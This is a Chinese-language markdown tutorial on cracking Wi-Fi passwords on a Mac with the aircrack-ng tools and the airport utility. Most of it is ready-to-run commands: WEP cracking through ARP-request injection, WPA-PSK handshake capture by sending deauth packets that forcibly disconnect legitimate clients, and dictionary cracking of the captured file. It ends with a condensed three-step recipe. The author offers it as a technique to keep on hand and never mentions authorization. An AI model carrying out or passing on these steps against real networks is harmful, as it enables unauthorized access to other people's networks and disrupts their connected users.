 #Mac下的WIFI破解
以前破wifi用的是CDLinux下的工具，最近换了mac研究了一下mac下的wifi破解工具，速度还行。不过现在到处都是免费wifi，还有好用的万能钥匙，这些技术用的都比较少了，写下来备用吧。


##一、wep破解
###1、载入无线网卡
```
ifconfig -a查看网卡
ifconfig wlan0 up加载网卡
iwconfig只查看无线网卡
```
###2、激活无线网卡只monitor监听模式
```
airmon-ng start 上面查看的网卡名

monitor mode enabled on mon0便是已启动监听模式，监听模式下适配器名称变更为mon0。
```
###3、探测无线网络，抓取无线数据包
```
airodump-ng mon0 //mon0为之前已经载入并激活监听模式的无线网卡

airodump-ng --ivs –w longas -c 6 wlan0 //抓取数据包
参数解释：
--ivs 这里的设置是通过设置过滤，不再将所有无线数据保存，而只是保存可用于破解的IVS数据报文，这样可以有效地缩减保存的数据包大小；
-c 这里我们设置目标AP的工作频道，通过刚才的观察，我们要进行攻击测试的无线路由器工作频道为6；
-w 后跟要保存的文件名，这里w就是“write写”的意思，所以输入自己希望保持的文件名，如下图10所示我这里就写为longas。那么，小黑们一定要注意的是：这里我们虽然设置保存的文件名是longas，但是生成的文件却不是longase.ivs，而是longas-01.ivs。
```

###4、对目标AP使用ArpRequest注入攻击，加速数据包的获取
```
aireplay-ng -3 -b AP的mac -h 客户端的mac mon0 
参数解释：
-3 指采用ARPRequesr注入攻击模式；
-b 后跟AP的MAC地址，这里就是前面我们探测到的SSID为TPLINK的AP的MAC；
-h 后跟客户端的MAC地址，也就是我们前面探测到的有效无线客户端的MAC；
最后跟上无线网卡的名称，这里就是mon0啦。
在等待片刻之后，一旦成功截获到ARP请求报文，我们将会看到如下图13所示的大量ARP报文快速交互的情况出现。
此时回到airodump-ng 会看到packets栏的数字在飞速递增。
```

###5、打开aircrack-ng，开始破解WEP
在抓取的无线数据报文达到了一定数量后，一般都是指IVs值达到2万以上时，就可以开始破解，若不能成功就等待数据报文的继续抓取然后多试几次。注意，此处不需要将进行注入攻击的Shell关闭，而是另外开一个Shell进行同步破解。输入命令如下：
```
aircrack-ng 捕获的ivs文件
```
##二、wap-psk破解
###1、升级Aircrack-ng
最好对airodump-ng的OUI库进行升级，先进入到Aircrack-ng的安装目录下，然后输入命令如下：
```
airodump-ng-oui-update
```
###2、载入并激活无线网卡至monitor即监听模式
载入无线网卡的顺序及命令部分，依次输入下述命令
```
startx            进入到图形界面
ifconfig –a       查看无线网卡状态
ifconfig  wlan0  up     载入无线网卡驱动
airmon-ng  start  wlan0  激活网卡到monitor模式
```
###3、探测无线网络，抓取无线数据包
```
airodump-ng -c 6 –w longas mon0
参数解释：
-c 这里我们设置目标AP的工作频道，通过观察，我们要进行攻击测试的无线路由器工作频道为6；
-w 后跟要保存的文件名，这里w就是“write写”的意思，所以输入自己希望保持的文件名，这里我就写为longas。那么，小黑们一定要注意的是：这里我们虽然设置保存的文件名是longas，但是生成的文件却不是longas.cap，而是longas-01.cap。
mon0 为之前已经载入并激活监听模式的无线网卡。
```
###4、进行Deauth攻击加速破解过程
和破解WEP时不同，这里为了获得破解所需的WPA-PSK握手验证的整个完整数据包，无线黑客们将会发送一种称之为“Deauth”的数据包来将已经连接至无线路由器的合法无线客户端强制断开，此时，客户端就会自动重新连接无线路由器，黑客们也就有机会捕获到包含WPA-PSK握手验证的完整数据包了。此处具体输入命令如下：
```
aireplay-ng -0 1 –a AP的mac -c 客户端的mac wlan0 
参数解释：
-0 采用deauth攻击模式，后面跟上攻击次数，这里我设置为1，大家可以根据实际情况设置为10不等；
-a 后跟AP的MAC地址；
-c 后跟客户端的MAC地址；
```
###5、开始破解WPA-PSK
在成功获取到无线WPA-PSK验证数据报文后，就可以开始破解，输入命令如下：
```
aircrack-ng -w dic 捕获的cap文件 
-w 后跟预先制作的字典，这里是BT4下默认携带的字典。
```

###命令合集
```
aircrack-ng
主要用于WEP及WPA-PSK密码的恢复，只要airodump-ng收集到足够数量的数据包，aircrack-ng就可以自动检测数据包并判断是否可以破解
airmon-ng
用于改变无线网卡工作模式，以便其他工具的顺利使用
airodump-ng
用于捕获802.11数据报文，以便于aircrack-ng破解
aireplay-ng
在进行WEP及WPA-PSK密码恢复时，可以根据需要创建特殊的无线网络数据报文及流量
airserv-ng
可以将无线网卡连接至某一特定端口，为攻击时灵活调用做准备
airolib-ng
进行WPA Rainbow Table攻击时使用，用于建立特定数据库文件
airdecap-ng
用于解开处于加密状态的数据包
tools
其他用于辅助的工具，如airdriver-ng、packetforge-ng等
```
---
#破解WIFI密码总结
这里我总结一下常用的流程，其实只有3个步骤。
###获取搜索到的wifi
```
airport -s
SSID 是 wifi名称，RSSI 是信号强度，CHANNEL 是信道。
```
###开始监听
```
sudo airport en0 sniff 1
en0是网卡   1是要抓包的信道
抓包.cap文件默认保存在/tmp  -w可以改变保存路径
```
###解析
```
aircrack-ng -w 1.txt 1.cap
1.txt是字典暴  1.cap是抓包文件
可以看到cap包的内容，Encryption中（0 handshake）是抓包失败，（1 handshake）则是抓包成功。
记住成功的行数，Index number of target network ?后面输入行数，回车。
```
